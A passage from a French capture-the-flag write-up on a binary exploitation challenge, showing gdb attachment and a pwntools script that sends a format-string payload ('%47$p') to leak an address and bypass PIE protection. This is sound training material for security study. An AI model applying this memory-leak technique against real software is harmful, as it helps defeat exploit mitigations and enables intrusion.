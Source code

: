 On va lancer une première fois le binaire avec pwntool et s'attacher au process avec gdb:

```bash
$ sudo gdb -p `pidof pwn1`
(pwndbg) > b* main
(pwndbg) > vmmap
```

![](/lib/images/writeups/german_fcsc/pwn//upload_0e52096aa4301a433becae14b83c838e.png)

Les adresses en `0x55...` sont donc des adresses liées au binaire en exécution.

Si on reprend la capture d'écran au dessus, il y en a quelques unes: 

![](/lib/images/writeups/german_fcsc/pwn//upload_e602134b7b6bf97e439d03c283b5bd4d.png)

L'adresse pointée par les flèches est l'adresse de "main":

![](/lib/images/writeups/german_fcsc/pwn//upload_cdb8ee9979a49a15db5ee8402df50f6f.png)

En comparant avec les sources, il est possible d'identifier qu'il s'agit de la même fonction:



![](/lib/images/writeups/german_fcsc/pwn//upload_7f3b93fd7eb1a4b193a22f9bdef39fa5.png)



Pour récupérer l'adresse de base, il suffit de soutraire la base adresse trouvée dans "vmmap" et l'adresse de main:

![](/lib/images/writeups/german_fcsc/pwn//upload_077c13eee08fafbc7106430098b08630.png)

Maintenant, la PIE est complètement contourné, car il est possible de récupérer l'adresse de base via un leak.

En modifiant un peu le script d'exploitation, il est possible de récupérer à tout les coups l'adresse de base:

```python
#!/usr/bin/python2

from pwn import *

FORMATSTRING = "|%47$p|"

p = process('./pwn1')
print(p.recvuntil('name:'))
p.sendline(FORMATSTRING)
leak = p.recvuntil('spell:').split('|')
base_addr = int(leak[-2], 16)-0x36f
log.info("Adresse de base: {}".format(hex(base_addr)))
raw_input("gdb attach")
p.interactive()
```

![](/lib/images/writeups/german_fcsc/pwn//upload_0ae689293e4f08ce4709d7ff3cb86bb1.png)

